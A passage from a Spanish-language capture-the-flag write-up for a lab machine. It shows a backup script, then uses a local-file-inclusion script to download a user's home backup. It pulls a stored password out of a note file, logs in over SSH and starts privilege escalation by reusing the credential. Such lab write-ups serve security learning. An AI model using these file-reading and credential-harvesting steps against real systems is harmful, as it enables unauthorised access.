 ```bash
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```


- Analizando esta script, podemos saber que el backup del home del usuario "bean" se almacena en el directorio "/home/bean/Documents/backup/bean_backup_final.tar.gz" así que usando la script en python que creamos, `descargamos` dicho archivo:

```bash
$python3 jwtLFI.py /home/bean/Documents/backup/bean_backup_final.tar.gz -d
```

- Descomprimos por completo este archivo:

```bash
$tar -xzf bean_backup_final.tar.gz
$tar -xzf bean_backup.tar.gz
```

- Examinamos el directorio del usuario bean:

```bash
$tree -la
```

- Vemos un archivo interesante ".config/xpad/content-DS1ZS1" lo abrimos y encontramos una credencial.

- Accedemos por `SSH` como "bean" usando la credencial encontrada:

```bash
$ssh bean@10.10.11.185
```

- Hemos accedido al sistema y podremos leer la primera flag.    


<br><br>


# ESCALANDO PRIVILEGIOS:


- Probamos la credencial del usuario "bean" que encontramos para acceder como el usuario `"admin"` a la página del subdominio que al inicio encontramos.

- Por el momento no encontramos nada en el navegador; dentro de la máquina enumeramos los recursos de esta página web, ubicados en "/var/www/store".

- Encontramos un archivo llamado "cart_actions.php", lo cateamos y analizamos su contenido.

